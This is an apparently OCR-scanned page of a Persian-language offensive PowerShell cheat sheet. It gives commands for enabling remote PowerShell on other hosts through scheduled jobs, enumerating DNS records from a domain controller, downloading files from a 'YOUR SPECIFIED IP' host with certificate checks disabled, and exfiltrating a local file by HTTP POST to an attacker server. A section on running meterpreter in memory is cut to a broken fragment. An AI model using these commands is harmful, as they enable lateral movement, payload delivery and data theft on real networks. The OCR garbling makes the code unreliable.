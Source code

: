 ### ارسال کننده Email

```text
powershell.exe Send-l-1ai1Hessage -to " email " -from " email " -subject 
"Subject" -a " attachment file path " -body "Body" -SmtpServer Target
Email Server IP 
```

### فعال سازی دسترسی از راه دور به powershell \(نیاز به اطلاعات هویتی\)

```text
net time \\ip
at \\ip time "Powershell -Command 'Enable-PSRemoting -Force'"
at \\ip time+1 "Powershell -Command 'Set-Item
wsman:\localhost\client\trustedhosts ''"
at \ \ip time+2 "Powershell -Command 'Restart-Service WinRM'"
Enter-PSSession -ComputerName ip -Credential username 
```

### لیست hostname و ip برای کلیه دامین ها

```text
Get-WmiObject -ComputerName DC -Namespace root\microsoftDNS -Class 
MicrosoftDNS _ ResourceRecord -Filter "domainname~' DOMAIN '" | select 
textrepresentation 
```

### دانلود از Powershell از مسیر خاص

```text
powershell.exe -noprofile -noninteractive -command 
"[System.Net.ServicePointManager] ::ServerCertificateValidationCallback = 
{$true); $source="""https:ll YOUR SPECIFIED IP I file.zip """; 
$destination="C:\rnaster.zip"; $http = new-object Systern.Net.WebClient;
$response= $http.DownloadFile($source, $destination);" 
```

### نمایش داده های Powershell 

```text
Script will send a file ($filepath) via http to server ($server) via POST request. 
Must have web server listening on port designated in the $server
 
powershell.exe -noprofile -noninteractive -command 
"[S;stem.Net.ServicePointManager] ::ServerCertificateValidationCallback = 
{$true); $server="""http:// YOUR_SPECIFIED IP / folder """;
$filepath="C:\master.zip" $http= new=object System.Net.WebClient;
$response= $http.UploadFile($server,$filepath);" 
```

## استفاده از powershell برای اجرای meterpreter از memory


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"